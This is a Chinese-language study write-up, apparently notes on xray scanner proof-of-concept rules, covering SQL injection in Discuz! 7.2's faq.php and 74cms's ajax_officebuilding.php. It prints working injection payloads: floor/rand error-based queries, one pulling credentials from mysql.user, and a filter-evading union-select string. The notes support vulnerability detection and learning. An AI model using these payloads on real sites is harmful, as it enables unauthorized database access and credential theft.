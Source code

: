     >   links:  
    >         - [https://blog.csdn.net/weixin_40709439/article/details/82780606](https://blog.csdn.net/weixin_40709439/article/details/82780606)

- **路径**：`/faq.php`
- **参数**：`gids[99]`、`gids[100][0]`
- **原理：floor 报错注入**（利用`rand`和`order by`或`group by`的冲突）

    ```sql
    mysql> select count(*), floor(rand(0)*2) x from information_schema.tables group by x;
    ERROR 1022 (23000): Can't write; duplicate key in table '/tmp/#sql3180_3fc4_4'
    ```

    具体原理整了半天没整明白，只测试发现命令中`count`、`floor`、`rand`、`group by`缺一不可，否则不报错  
    新版 MySQL 好像注不出数据了，我的 8.0.22 测试 payload 报错：

    ```sql
    mysql> select 1 from (select count(*), concat((select concat(user, 0x3a, md5(1234), 0x3a) from mysql.user limit 0,1), floor(rand(0)*2))x from information_schema.tables group by x)a;
    ERROR 1022 (23000): Can't write; duplicate key in table '/tmp/#sql3180_3fc4_3'
    ```

- **检测**：`md5(1234)`的结果、报错信息`Discuz! info</b>: MySQL Query Error`
- **参考**：[github.com/chaitin/xray/blob/master/pocs/discuz-v72-sqli.yml](https://github.com/chaitin/xray/blob/master/pocs/discuz-v72-sqli.yml)

---


# 0x02 74cms-sqli-2 _(2014)_

- **配置整理**：

    > ## set:  //自定义变量，比如是随机数、反连平台等  
    >   rand: randomInt(200000000, 210000000)  //在（200000000，210000000）内随机取一个整数 rand  
    > ## rules:  
    >   - **method: `GET`**
    >
    > ```sql
    >     path:
    >         /plus/ajax_officebuilding.php
    >             ?act=key
    >             &key=錦' a<>nd 1=2
    >                 un<>ion sel<>ect 1,2,3,md5({{rand}}),5,6,7,8,9#
    >
    >     expression: |
    >         response.body.bcontains(bytes(md5(string(rand))))
    > ```
    >
    > ## detail:   
    >   author: rexus  
    >   links:   
    >         - [https://blog.csdn.net/weixin_40709439/article/details/82780606](https://blog.csdn.net/weixin_40709439/article/details/82780606)
